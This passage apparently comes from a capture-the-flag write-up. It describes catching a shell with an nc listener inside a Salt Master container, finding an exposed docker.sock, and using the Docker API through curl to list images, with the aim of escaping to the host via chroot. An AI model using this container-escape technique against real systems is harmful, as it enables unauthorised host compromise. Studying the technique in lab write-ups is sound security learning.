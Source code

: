 Meanwhile at my `nc` listener...

{% include image.html image_alt="30ec0c80.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/30ec0c80.png" %}

The docker container is indeed the Salt Master.

{% include image.html image_alt="69c8ebe1.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/69c8ebe1.png" %}

### The danger of an exposed `docker.sock`

During enumeration of the docker container, I found the presence of the docker socket.

{% include image.html image_alt="56eccba0.png" image_src="/dfe82658-388a-4b1e-ae58-44b4417f84b0/56eccba0.png" %}

Notice the `118`? That's the `docker` group of the host operating system.

This [article](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) talks a great deal about the danger of exposing `docker.sock` but to me what stood out as the most important aspect was this,

> Don't forget to add `chroot /hostos` if you want to run the command against the Host OS.

Armed with this insight and reference to the Docker Engine [API](https://docs.docker.com/engine/api/v1.40/), we could create and start a container by virtue of having an exposed `docker.sock`.

_List Images_

```json
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
  {
    "Containers": -1,
    "Created": 1588544489,
    "Id": "sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": [
      "<none>@<none>"
    ],
    "RepoTags": [
      "<none>:<none>"
    ],
    "SharedSize": -1,
    "Size": 1056679100,
    "VirtualSize": 1056679100
  }
]
```
